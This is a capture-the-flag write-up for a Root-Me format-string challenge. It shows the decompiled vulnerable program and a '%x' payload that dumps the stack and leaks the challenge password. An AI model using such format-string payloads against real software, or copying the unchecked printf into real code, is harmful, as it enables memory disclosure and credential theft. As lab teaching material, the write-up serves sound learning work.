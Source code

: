 ### S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *file; // ST28_4@1
  int result; // eax@1
  int v5; // edx@1
  int buf; // [sp+2Ch] [bp-24h]@1
  int stackcookie; // [sp+4Ch] [bp-4h]@1

  stackcookie = *MK_FP(__GS__, 20);
  file = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
  fgets((char *)&buf, 32, file);
  printf(argv[1]);			//print(argv[1]) -> formatstring bug
  fclose(file);
  result = 0;
  v5 = *MK_FP(__GS__, 20) ^ stackcookie;
  return result;
}
```
we have already knew this program have bug formatstring

we try to get the address hex stack with the following steps:

```
./ch5 %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x
20_804b008_b7fceff4_8048570_8049ff4_2_bffffca4_b7fcf3e4_d_804b008_39617044_28293664_6d617045_b7000a64
```
Now we see after 804b008 .that is the array ascii value and see the last charracter have \x0a (b7000a64)
so we think this is string of password instead

> We need to convert this to ascii code !! 
>39617044_28293664_6d617045_0a64
>little endian -> ascii 
>44706139_64362928_4570616d_64

we have the string ascii code !! try it with decompile online 
http://www.rapidtables.com/convert/number/hex-to-ascii.htm
or you can try it with hand.

Ok !! then we get the password.
